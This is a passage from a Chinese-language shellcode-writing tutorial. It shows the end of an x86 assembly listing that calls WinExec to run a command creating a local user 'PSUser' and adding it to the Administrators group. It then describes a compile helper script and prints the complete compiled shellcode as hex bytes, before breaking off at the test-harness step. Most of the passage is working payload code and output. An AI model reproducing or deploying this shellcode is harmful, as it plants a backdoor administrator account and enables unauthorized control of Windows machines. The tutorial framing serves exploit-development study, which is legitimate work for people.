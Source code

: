 ```
    push ebx ;push the command onto the stack
    call [ebp+4] ;call WinExec(path,showcode)
    xor eax,eax ;zero the register again, clears winexec retval
    push eax ;push null onto stack as empty parameter value
call [ebp+8] ;call ExitProcess(0);
GetCommand:
    call CommandReturn
    db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser"
    db 0x00
+--------------- End adduser-dynamic.asm --------------+

```

编译汇编代码

在前面的教程中,我们可以手动地用nasm编译汇编代码来完成每一个步骤,使用xxd和xxd-shellcode.sh来去除未经修改的shellcode,把未经修改的shellcode插入到shellcodetest.c中,然后用gcc编译这个测试程序.每次要完成对shellcode作出略微的更改是有点难度的.

因为这个原因,我已经创建了”shellcode-compiler.sh”,它可以为你做所有这些步骤！你应该已经在教程1中下载了这个脚本,和任意其它必须的脚本和程序.这个程序的用法如下所示：

```
$ ./shellcode-compiler.sh
      Usage: ./shellcode-compiler.sh filename.asm
      Eg, ./shellcode-compiler.sh shellcode.asm

```

把汇编文件作为一个输入到编译器的文件,同时创建”filename.shellcode”形式的Cygwin环境下的可执行文件.这个教程的汇编文件可以使用如下命令编译,并输出如下所示

> $ ./shellcode-compiler.sh adduser-dynamic.asm

把 adduser-dynamic.asm 编译成 adduser-dynamic.bin

[nasm -f bin -o adduser-dynamic.bin adduser-dynamic.asm]

把adduser-dynamic.bin 转换成 adduser-dynamic.shellcode

```
[./xxd-shellcode.sh adduser-dynamic.asm]
    \xe9\x9b\x00\x00\x00\x56\x31\xc0\x64\x8b\x40\x30\x85\xc0\x78\x0f\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\xe9\x09\x00\x00\x00\x8b\x40\x34\x8d\x40\x7c\x8b\x40\x3c\x5e\xc3\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x05\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xad\x50\x52\xe8\xaa\xff\xff\xff\x89\x07\x81\xc4\x08\x00\x00\x00\x81\xc7\x04\x00\x00\x00\x39\xce\x75\xe6\xc3\xe8\x19\x00\x00\x00\x98\xfe\x8a\x0e\x7e\xd8\xe2\x73\x81\xec\x08\x00\x00\x00\x89\xe5\xe8\x58\xff\xff\xff\x89\xc2\xeb\xe2\x5e\x8d\x7d\x04\x89\xf1\x81\xc1\x08\x00\x00\x00\xe8\xb6\xff\xff\xff\xeb\x0e\x5b\x31\xc0\x50\x53\xff\x55\x04\x31\xc0\x50\xff\x55\x08\xe8\xed\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72

```

创建 adduser-dynamic.shellcodetest.c

